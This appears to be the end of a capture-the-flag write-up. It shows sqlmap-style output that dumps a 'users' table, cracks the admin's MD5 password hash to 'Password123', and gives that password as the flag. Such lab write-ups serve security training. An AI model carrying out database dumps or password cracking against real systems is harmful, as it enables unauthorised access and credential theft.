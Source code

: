 ```bash
[15:36:15] [INFO] cracked password 'Password123' for user 'admin'
Database: production
Table: users
[1 entry]
+----+-------+-------+--------+------------------------------------------------+
| id | name  | login | active | password                                       |
+----+-------+-------+--------+------------------------------------------------+
| 1  | Admin | admin | 1      | 42f749ade7f9e195bf475f37a44cafcb (Password123) |
+----+-------+-------+--------+------------------------------------------------+
```

---

### Flag:

```
Password123
```

